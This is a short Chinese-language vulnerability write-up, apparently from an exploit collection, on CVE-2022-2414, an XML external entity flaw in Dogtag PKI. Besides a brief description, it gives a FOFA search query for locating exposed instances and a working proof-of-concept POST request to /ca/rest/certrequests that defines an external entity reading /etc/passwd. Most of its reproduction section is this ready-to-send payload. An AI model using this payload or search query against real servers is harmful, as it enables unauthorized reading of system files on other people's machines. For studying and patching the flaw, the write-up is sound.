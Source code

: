 # Dogtag PKI XML实体注入漏洞 CVE-2022-2414

## 漏洞描述

Dogtag PKI 的XML解析器存在安全漏洞，该漏洞源于在分析 XML 文档时访问外部实体可能会导致 XML 外部实体 （XXE） 攻击。此漏洞允许远程攻击者通过发送特制的 HTTP 请求来潜在地检索任意文件的内容。

## 漏洞影响

```
Dogtag PKI
```

## FOFA

```
title="Identity Management"
```

## 漏洞复现

登录页面

![image-20221024101747499](./images/202210241017604.png)

验证POC

```
POST /ca/rest/certrequests
Content-Type: application/xml

<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]>
<CertEnrollmentRequest>
  <Attributes/>
  <ProfileID>&ent;</ProfileID>
</CertEnrollmentRequest>
```

![image-20221024101759219](./images/202210241017273.png)